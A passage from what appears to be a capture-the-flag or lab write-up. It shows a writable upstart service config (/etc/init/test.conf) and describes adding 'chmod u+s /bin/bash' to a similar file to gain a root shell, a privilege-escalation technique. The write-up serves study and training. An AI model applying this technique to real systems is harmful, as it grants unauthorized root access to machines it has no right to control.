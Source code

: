 It appears that we own quite a few `test.conf` files, meaning that we can edit it. The configuration files contained some bash lines:

```
$ cat /etc/init/test.conf 
description "Test node.js server"
author      "katie"

start on filesystem or runlevel [2345]
stop on shutdown

script

    export HOME="/srv"
    echo $$ > /var/run/nodetest.pid
    exec /usr/local/share/nodebrew/node/v8.9.4/bin/node /srv/nodetest.js

end script

pre-start script
    echo "[`date`] Node Test Starting" >> /var/log/nodetest.log
end script

pre-stop script
    rm /var/run/nodetest.pid
    echo "[`date`] Node Test Stopping" >> /var/log/nodetest.log
end script
```

I added `chmod u+s /bin/bash` to `test2.conf`, and then started the process. Then, we can easily get a `root` shell:

<figure><img src="../../../.gitbook/assets/image (4223).png" alt=""><figcaption></figcaption></figure>
